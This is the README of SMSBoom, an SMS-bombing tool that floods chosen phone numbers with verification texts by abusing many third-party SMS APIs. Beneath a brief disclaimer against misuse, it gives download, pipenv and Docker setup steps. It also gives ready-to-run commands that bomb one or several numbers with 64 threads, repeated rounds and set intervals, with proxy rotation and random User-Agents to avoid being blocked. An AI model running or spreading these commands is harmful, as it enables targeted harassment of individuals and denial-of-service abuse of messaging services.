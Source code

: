 # SMSBoom


![test](img/test2.gif)

## 免责声明

1. 使用此程序请遵守当地的法律法规，禁止滥用、恶意使用，**触犯法律所造成的问题均由使用者承担**。  
2. 本程序仅供娱乐,源码全部开源,**禁止滥用** 和二次 **禁止用于商业用途**.
3. 本程序仅供个人学习使用

## Repair - TODO

1. 修改文档
2. 修缮主要功能
3. 修缮后端使用 FastAPI 前端使用 vue3 elementUI
4. GUI 使用 web 技术

## Feature

1. 通过自定义 `api.json` 的方式定义接口.  
2. 支持关键字替换. **时间戳** `[timestamp]` **手机号** `[phone]`  
3. 多线程/异步 请求.  
4. 通过 Flask 提供网页测试/添加接口.  
5. 友好的命令行参数支持.  
6. 采用方便的 pipenv 包管理.  
7. 通过代理调用短信接口, 支持 http, socks4, socks5代理.
8. 使用随机的 User-Agent.
9. 可指定轰炸次数, 轰炸间隔时间.

## Quick Start

### 适用于小白

✨本项目已经使用 `pyinstaller` 打包成 `EXE` 可执行文件!免去部署 Python 环境的烦恼,适合用于小白白.  

🔨作者的打包环境为: `Windows 10 x64 Python3.8` 如果 Windows 系统不是 **Windows 10 64位** 版本,**可能会运行失败**! 如果出现异常报错请截图发 Issue.

#### Step1. 下载 EXE 可执行文件

 请移步到项目的 [release页](https://github.com/OpenEthan/SMSBoom/releases) 下载

 > 若遇到国内网络环境下载不下来,请参见 [https://github.do/](https://github.do/) 等加速镜像.

#### Step2 运行  

1. 在任意盘(**除C盘外**)中新建一个文件夹.将程序移动到其中. e.g.  
![img](https://cdn.jsdelivr.net/gh/OpenEthan/SMSBoom@master/img/e.g.1.png)

2. `Win`+`R` 打开cmd.输入存放的盘符.例如: `E:` 然后cd到文件夹,例如 `cd SMS`
![img](https://cdn.jsdelivr.net/gh/OpenEthan/SMSBoom@master/img/cmd1.png)

3. 确认 cmd 路径是 EXE 所在路径后,cmd 输入:`smsboom_pyinstall.exe`,若出现命令提示,则说明脚本已正常运行.
![img](https://cdn.jsdelivr.net/gh/OpenEthan/SMSBoom@master/img/cmd2.png)

4. 使用前必须更新一遍最新接口

```shell
smsboom_pyinstall.exe update
```

> 若更新接口出现错误 `ssl_`, 请参见 [issue](https://github.com/OpenEthan/SMSBoom/issues/2) **关闭代理软件**再 update.

5. 传递命令示例

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),只轰//炸一波。

```shell
smsboom_pyinstall.exe run -t 64 -p 198xxxxxxxxx
```

启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次

```shell
smsboom_pyinstall.exe run -t 64 -p 198xxxxxxxxx -f 60
```

启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒

```shell
smsboom_pyinstall.exe run -t 64 -p 198xxxxxxxxx -f 60 -i 30
```

启动64个线程,轰//炸一个人的手机号(19xxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```shell
smsboom_pyinstall.exe run -t 64 -p 198xxxxxxxxx -f 60 -i 30 -e
```

启动64个线程,轰//炸多个人的手机号(138xxx,139xxxx),启动循环轰//炸, 轮番轰炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```shell
smsboom_pyinstall.exe run -t 64 -p 138xxxxxxxx -p 139xxxxxxxx -f 60 -i 30 -e
```

### Development

1. Download 下载项目

```shell
git clone https://github.com/AdminWhaleFall/SMSBoom.git/
```

2. 配置虚拟环境 Deploy Virtual Envirement  

**前提条件:** 请确保自己的电脑有 `python3.x` 的环境,推荐使用 `3.8` 及以上!  

#### 使用 pipenv

1. 安装 pipenv 包管理工具.  

```shell
pip install pipenv
```

2. 为项目构建虚拟环境.  

```shell
pipenv install  # 仅使用轰//炸功能
pipenv install --dev # 使用 webui 调试接口功能.
```

3. 尝试运行 smsboom.py  

```shell
pipenv shell # 激活虚拟环境
python smsboom.py  # linux
```

若无报错，输出帮助信息，则说明环境已经正确安装。若报错请使用方案二

#### 不使用虚拟环境

1. 安装所需要的库

```shell
pip install -r requirements.txt # 仅使用轰//炸
pip install -r requirements-dev.txt # 使用 webui
```

2. 尝试运行 smsboom.py

```shell
python smsboom.py
```

若无报错，输出帮助信息，则说明环境已经正确安装。

#### 使用 Docker 运行

##### 方式一: 一键运行

```shell
docker run --rm lanqsh/smsboom run -t 1 -p {PHONE} -i 1
```

##### 方式二: 自建镜像

**前提条件:** 请确保当前环境已安装 [Docker](https://docs.docker.com/get-docker/).

1. 构建镜像

```shell
docker build -t whalefell/smsboom .
```

2. 尝试运行

```shell
docker run --rm whalefell/smsboom:latest --help

Usage: smsboom.py [OPTIONS] COMMAND [ARGS]...

Options:
  --help  Show this message and exit.

Commands:
  asyncrun  以最快的方式请求接口(真异步百万并发)
  onerun    单线程(测试使用)
  run       传入线程数和手机号启动轰炸,支持多手机号
  update    从 github 获取最新接口
```

#### 运行  

若使用虚拟环境,请先激活. `pipenv shell`

```shell
# 输出帮助信息
python smsboom.py --help

Usage: smsboom.py [OPTIONS] COMMAND [ARGS]...    
Options:
--help  Show this message and exit.
Commands:
run     传入线程数和手机号启动轰//炸,支持多手机号
update  从 github 获取最新接口
```

- 启动轰//炸  

帮助信息:

```shell
python smsboom.py run --help

Usage: smsboom.py run [OPTIONS]

传入线程数和手机号启动轰//炸,支持多手机号

Options:
-t, --thread INTEGER       线程数(默认64)
-p, --phone TEXT           手机号,可传入多个再使用-p传递  [required]
-f, --frequency INTEGER    执行次数(默认1次)
-i, --interval INTEGER     间隔时间(默认60s)
-e, --enable_proxy BOOLEAN 开启代理(默认关闭)
--help                     Show this message and exit.
```

### 使用代理

本项目不能通过API自动获取代理, 你可以从下面的免费代理网站中手动获取代理, 或是选择使用自己的代理, 或是不使用代理.

> [https://proxyscrape.com/free-proxy-list](https://proxyscrape.com/free-proxy-list)

> [https://openproxy.space/list](https://openproxy.space/list)

将代理添加到 `http_proxy.txt` `socks4_proxy.txt` `socks5_proxy.txt` 三个文件中, 命令参数添加 `-e` 执行即可.





